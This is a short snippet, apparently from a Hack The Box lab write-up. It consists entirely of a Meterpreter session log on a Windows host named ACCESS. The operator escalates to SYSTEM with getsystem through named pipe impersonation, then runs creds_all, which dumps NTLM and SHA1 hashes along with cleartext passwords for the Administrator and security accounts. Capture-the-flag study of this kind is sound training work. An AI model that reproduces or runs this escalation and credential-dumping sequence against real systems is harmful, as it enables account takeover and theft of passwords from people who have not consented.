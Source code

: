 ````
meterpreter > creds_all 
[!] Not running as SYSTEM, execution may fail
meterpreter > getuid
Server username: ACCESS\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  NTLM                              SHA1
--------       ------  ----                              ----
Administrator  ACCESS  db852e5a46ea5f5514f639a20daa9e2c  974b219dcf5c05c895c152bbbc1aea6aeffbe860
security       ACCESS  b41db16a61cb04b231625de260163015  75f1e3aa023a0f57d4225f3ab4f18f6fea025414

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
ACCESS$        HTB     (null)
Administrator  ACCESS  55Acc3ssS3cur1ty@megacorp
security       ACCESS  4Cc3ssC0ntr0ller

tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
Administrator  ACCESS  55Acc3ssS3cur1ty@megacorp
security       ACCESS  4Cc3ssC0ntr0ller

kerberos credentials
====================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
Administrator  ACCESS  55Acc3ssS3cur1ty@megacorp
access$        HTB     (null)
security       ACCESS  4Cc3ssC0ntr0ller
````
